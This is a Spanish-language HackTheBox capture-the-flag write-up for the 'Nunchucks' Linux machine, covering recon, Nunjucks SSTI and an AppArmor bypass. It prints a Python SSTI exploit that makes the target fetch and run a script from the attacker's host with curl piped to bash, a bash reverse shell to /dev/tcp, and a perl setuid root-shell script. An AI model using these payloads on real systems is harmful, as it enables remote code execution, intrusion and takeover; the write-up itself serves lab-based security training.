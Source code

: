 ```yaml
---
title: Nunchucks | Linux
published: 2025-03-01
image: "./logo.png"
tags: [Easy, Linux, SSTI, AppArmor, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- NodeJS SSTI (Server Side Template Injection)
- AppArmor Profile Bypass (Privilege Escalation)

### Preparación

- eJPT  
- eWPT

***

## Reconocimiento

Comenzaremos el reconocimiento con un escaneo a los puertos abiertos de esta máquina y que servicios y versiones corren en cada uno.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.122
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FhGIPLvtURyLqXqZvKEc6%2Fimg1.png?alt=media&#x26;token=d63bc10b-ff0f-4a0f-a699-2a8fc3516b9d" alt=""><figcaption></figcaption></figure>

Podemos ver que hay 3 puertos abiertos uno con el servicio **SSH** y 2 con servicios **HTTP** y **HTTPS**, además vemos que usan el dominio _numchucks.htb_ por lo que lo añadiremos al `/etc/hosts`. Además entraremos al dominio a ver que nos encontramos.

### Ffuf

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FQpyOlFNbK0W4VSchcIlP%2Fimg2.png?alt=media&#x26;token=f8186daf-e4b6-4fd9-9970-39c624fa4998" alt=""><figcaption></figcaption></figure>

Vemos que hay un panel de _Login_ y _SignUp_, pero no funcionan, por lo que podríamos aplicar la técnica de **fuzzing**.

```
ffuf -u https://nunchucks.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -r -fs 45
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmGGmkSLV1Y2S1v2wGEu1%2Fimg3.png?alt=media&#x26;token=7b90a0af-2567-4639-9fbf-47bd88c4e6ef" alt=""><figcaption></figcaption></figure>

Le hemos tenido que añadir un **-fs 45** porque por defecto si no encontraba un directorio te redirigia a una página de este tamaño. No hay nada interesante por lo que podríamos comprobar si esta utilizando **Virtual Hosting** (_VHOST_):

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://nunchucks.htb -H "Host: FUZZ.nunchucks.htb" -mc 200 -fs 30589
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fp4soqiwfyYBM7aHGlkU2%2Fimg4.png?alt=media&#x26;token=a0192f1d-4a22-4df4-bda2-b13497df67c1" alt=""><figcaption></figcaption></figure>

Al igual que antes hubo que aplicar un filtro, pero podemos ver que ha encontrado uno, lo añadiremos también al /etc/hosts y navegaremos a ver que encontramos.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FCfwpR02AgvK7fImnZvBp%2Fimg5.png?alt=media&#x26;token=1e97c906-d06a-4bbb-9949-971c53c24ff3" alt=""><figcaption></figcaption></figure>

### SSTI

Podemos ver una web simple en la que podemos introducir un email y luego se muestra nuestro input. Esto puede causar muchos problemas si está mal sanitizado. En este caso podemos aprovechar un **SSTI** (_Server Side Template Injection_) que es como introducir un XSS en HTML pero para plantillas como puede ser PUG entre otros. Por lo que probaremos con algo simple.

```
{{2+2}}@gmail.com
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F5YjX1N1tJIQNhPiE6aD4%2Fimg6.png?alt=media&#x26;token=4d031111-aa43-4ddc-89c8-f56d5044e98a" alt=""><figcaption></figcaption></figure>

### WhatWeb

Podemos ver que realiza la operación por lo que es vulnerable. Ahora necesitamos saber que tipo de plantilla esta utilizando, por lo que usaremos **whatweb** para sacar más información.

```
whatweb https://store.nunchucks.htb/
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FBLmCIJ7YOm3VjNUjWzWi%2Fimg7.png?alt=media&#x26;token=895b70d9-836b-4c54-a3fe-9074de7710b9" alt=""><figcaption></figcaption></figure>

Podemos ver que corre **Express.js**, veamos que posibles plantillas existen:

* PugJs `#{7*7}` ❎
* Handlebars `${7*7}` ❎
* Nunjucks (Similar al nombre de la máquina) `{{7*7}}` ✅

## Explotación

&#x20;Vamos a crear un exploit en **python** para poder explotar esta vulnerabilidad.


```python
#!/usr/bin/python3

import requests
from urllib3.exceptions import InsecureRequestWarning

def main():
    try:
        # Suppress the warnings from urllib3
        requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

        payload = """{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl http://10.10.14.16/index.html | bash ')")()}}"""
        response = requests.post(
            url="https://store.nunchucks.htb/api/submit",
            json={"email": payload},
            verify=False
        )

        if response.status_code == 200:
            print(response.text)
        else:
            print("[x] Something went wrong")
    except Exception as e:
        print(str(e))

if __name__ == "__main__":
    main()
```

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```

Con esto podremos establecer una reverse shell con la que podremos obtener la flag de usuario para luego poder hacer una escalada de privilegios y poder conseguir la root flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FD3TlztcRuyAPhsYwp6tX%2Fimg8.png?alt=media&#x26;token=536becc5-2b02-426d-8b70-20e9ec600e17" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Para la escalación vamos a ver que permisos **root** encontramos.

```
find . -perm -4000 -user root 2>/dev/null
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FIg4u8M7dzf0rzkuU9A2S%2Fimg9.png?alt=media&#x26;token=60d72c2b-7f63-48b8-9c83-687ebc15e492" alt=""><figcaption></figcaption></figure>

```
getcap / -r 2>/dev/null
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fs4K9gDsX4pWZseAkMmUb%2Fimg10.png?alt=media&#x26;token=e291ee66-d39e-41c0-914f-607f6bf055b3" alt=""><figcaption></figcaption></figure>

Aclaración de el uso de estos comandos:

#### 1. **`find . -perm -4000 -user root 2>/dev/null`**

* `find .` → Busca archivos en el directorio actual y sus subdirectorios.
* `-perm -4000` → Filtra los archivos que tienen el **bit SUID** activado. Este bit permite que el archivo se ejecute con los permisos de su propietario en lugar de los del usuario que lo ejecuta.
* `-user root` → Filtra los archivos que pertenecen al usuario `root`.
* `2>/dev/null` → Redirige los errores (como permisos denegados) a `/dev/null` para que no se muestren en la salida.

**¿Para qué sirve?**\
Encuentra archivos con permisos **SUID** de `root`, lo que es útil en auditorías de seguridad, ya que estos archivos pueden permitir la escalada de privilegios si tienen vulnerabilidades.

#### 2. **`getcap / -r 2>/dev/null`**

* `getcap / -r` → Busca en todo el sistema (`/`) archivos con **capabilities** activadas y muestra sus capacidades.
* `2>/dev/null` → Redirige los errores a `/dev/null`.

**¿Para qué sirve?**\
Muestra qué archivos tienen **capabilities** activadas en el sistema.\
En lugar de depender de SUID, Linux tiene un sistema de capacidades (`capabilities`) que otorga permisos específicos sin necesidad de ser `root`.\
Por ejemplo, si un binario tiene `cap_net_admin`, puede modificar interfaces de red sin ser `root`.



Una vez aclarado esto vemos que **perl** tiene capabilities activadas las cuales podríamos intentar explotar con:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FB4zu1VNfRjffiZLMWrcO%2Fimg11.png?alt=media&#x26;token=133f089f-6c88-48cb-ba3c-fe7393e4bf85" alt=""><figcaption></figcaption></figure>

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fvz7q99TEUxVajmWWH3ww%2Fimg12.png?alt=media&#x26;token=e0e8c32d-16eb-417f-9bfa-ad5ae1286920" alt=""><figcaption></figcaption></figure>

Vemos que funciona, vamos a intentar lanzar un ping a nosotros mismos:

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "ping -c 1 10.10.14.16";'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FrszYcniiuAZuKMhsJBrP%2Fimg13.png?alt=media&#x26;token=fb781d7e-52e0-4d9e-8033-90ac819566a8" alt=""><figcaption></figcaption></figure>

```
sudo tcpdump -ni tun0 icmp
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F7PG7ob9vJYzUpUBp72Rq%2Fimg14.png?alt=media&#x26;token=bf08cb44-3fc4-4890-82cd-940778b88764" alt=""><figcaption></figcaption></figure>

No recibimos nada, es posible que algo lo esté bloqueando. Tras una pequeña búsqueda vemos que está protegiéndolo **AppArmor**, que básicamente es una aplicación de protección contra amenazas en linux. Vamos a comprobar si está activa.

```
find \-name \*apparmor\* 2>/dev/null | grep -vE "var|proc|sys|usr"
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FMpuUOb4UpFx31opcEzbr%2Fimg15.png?alt=media&#x26;token=6aa57b94-8e06-4262-a741-b5a8adaf194b" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F2aSIlFUJFm8McO4aQf2T%2Fimg16.png?alt=media&#x26;token=b4c80b9d-dea1-4b94-9bf9-c33d99ad2d0c" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F9swyXWpxq1cP8kG5JukX%2Fimg17.png?alt=media&#x26;token=374cb54d-aeb9-4f72-be3a-73b076d47c28" alt=""><figcaption></figcaption></figure>

Podemos ver que hay bastante información sobre **apparmor.d**, vamos a ver que hay en `/opt/backup.pl`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FqwwXRQU3C6yaoRZXL3Wb%2Fimg18.png?alt=media&#x26;token=d3921caf-dab2-4ff5-90a7-5e90d3b6212d" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F6Or04vWcoATYNAqw3FLY%2Fimg19.png?alt=media&#x26;token=8043821e-9e47-4e3b-b033-f27f362cde67" alt=""><figcaption></figcaption></figure>

Vemos que solo tenemos permisos de ejecución y no de escritura. Buscando vulnerabilidades de AppArmor podemos encontrar una relacionada con [perl](https://bugs.launchpad.net/apparmor/+bug/1911431).

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fh3MZUVt59BVww1zbo6Xo%2Fimg20.png?alt=media&#x26;token=1467510d-8f85-48b5-bb8e-f74b9bba3726" alt=""><figcaption></figcaption></figure>

Podemos ganar privilegios con el mismo script del **GTFObins** pero usando el _shebang._


```bash
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FyFayqo7H7Mj34gGyViDI%2Fimg21.png?alt=media&#x26;token=5657d109-3ff5-417e-89e8-3d7307df4d6c" alt=""><figcaption></figcaption></figure>

Vemos que después de darle permisos y ejecutarlo, obtenemos la flag root.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/414)

---